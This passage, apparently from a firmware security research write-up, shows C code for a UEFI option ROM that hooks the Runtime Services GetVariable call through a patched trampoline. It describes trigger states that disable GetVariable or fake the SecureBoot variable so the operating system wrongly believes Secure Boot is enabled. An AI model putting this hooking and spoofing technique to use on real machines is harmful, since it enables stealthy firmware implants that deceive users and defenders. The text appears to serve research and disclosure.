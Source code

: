 ```c
  UINTN DupDataSize = *DataSize;
  Status = data->GetVariable(
    VariableName,
    VendorGuid,
    &DupAttributes,
    &DupDataSize,
    Data
  );
  if (Attributes != NULL) {
    *Attributes = DupAttributes;
  }
  *DataSize = DupDataSize;
  return Status;
}
```

The `GetVariable` install code is then modified to allocate the Runtime Services data and fixup the relocated code with the position of this data structure.

```c
// Fill in the above TODO with:
MyOptionRomData *data = NULL;
gBS->AllocatePool(EfiRuntimeServicesData, sizeof(MyOptionRomData), (VOID**)&data);
If (data == NULL) {
  // Handle unlikely error state
}

unsigned char *search = (unsigned char *)handler
for (INTN i = 0; i < 100; i++) {
  // Search for canary value
  if (search[i] == 0x12 && search[i+1] == 0xab && 
      search[i+2] == 0x12 && search[i+3] == 0xab) {
    search[i] = ((unsigned char *)(&data))[0];
    search[i+1] = ((unsigned char *)(&data))[1];
    search[i+2] = ((unsigned char *)(&data))[2];
    search[i+3] = ((unsigned char *)(&data))[3];
    break;
  }
}

// Remember the original GetVariable location
data->GetVariable = gRT->GetVariable;
```

Now imagine adding several counters to `MyOptionRomData` and implementing two states. The first is triggered by reading `BootCurrent` ten times consecutively and this disables or enables `GetVariable` functionality; the second is triggered by reading `Boot0002` and overrides the return of `SecureBoot` to return `0x1` or allow the code to fall through into the trampoline.

Thus we can introduce simple security impact with this trampoline by faking / masking any `GetVariable` request, for example tricking the OS that it is running in UEFI Secure Boot mode.

Below is another toy example testing the state maintainace to on-command trigger disabling `GetVariable` functionality.
